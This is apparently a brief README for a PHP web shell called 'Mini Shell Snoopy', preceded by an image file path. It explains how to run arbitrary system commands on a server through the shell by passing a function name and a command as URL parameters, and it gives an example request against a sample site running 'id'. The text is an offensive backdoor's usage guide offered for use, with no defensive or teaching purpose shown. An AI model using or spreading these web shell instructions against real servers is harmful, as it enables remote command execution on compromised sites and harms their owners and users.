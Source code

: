 # Mini Shell Snoopy
How to use access your shell: php?_=system&__=id<br>
Example: site.co.li/shell.php?_=system&__=id
